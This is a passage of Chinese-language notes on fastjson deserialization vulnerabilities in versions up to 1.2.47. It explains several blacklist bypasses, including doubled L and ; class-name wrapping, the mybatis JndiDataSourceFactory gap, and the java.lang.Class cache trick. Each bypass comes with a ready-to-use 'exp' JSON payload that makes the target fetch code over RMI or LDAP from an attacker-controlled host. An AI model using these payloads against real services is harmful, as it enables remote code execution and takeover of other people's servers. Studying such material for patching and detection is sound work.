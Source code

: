 ##### autoTypeSupport属性为true才能使用。（fastjson&gt;=1.2.25默认为false）

### 2.4 fastjson&lt;=1.2.42漏洞详情

##### fastjson在1.2.42版本新增了校验机制。如果输入类名的开头和结尾是L和;就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层L和;。

```php
原类名：com.sun.rowset.JdbcRowSetImpl
绕过：LLcom.sun.rowset.JdbcRowSetImpl;;
```

##### exp：

```php
{           
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
    "dataSourceName":"rmi://x.x.x.x:9999/exp",
    "autoCommit":true
}
```

##### autoTypeSupport属性为true才能使用。（fastjson&gt;=1.2.25默认为false）

### 2.5 fastjson&lt;=1.2.45漏洞详情

##### 前提条件：目标服务器存在mybatis的jar包，且版本需为3.x.x系列&lt;3.5.0的版本。

##### 使用黑名单绕过，org.apache.ibatis.datasource在1.2.46版本被加入了黑名单。

##### autoTypeSupport属性为true才能使用。（fastjson&gt;=1.2.25默认为false）

##### exp：

```php
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}}
```

### 2.6 fastjson&lt;=1.2.47漏洞详情

##### 对版本小于1.2.48的版本通杀，autoType为关闭状态也可用。loadClass中默认cache为true，利用分2步，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，绕过了黑名单机制。

##### exp：

```php
{
 "a": {
 "@type": "java.lang.Class", 
 "val": "com.sun.rowset.JdbcRowSetImpl"
 }, 
 "b": {
 "@type": "com.sun.rowset.JdbcRowSetImpl", 
 "dataSourceName": "rmi://x.x.x.x:9999/exp", 
 "autoCommit": true
 }
}
```
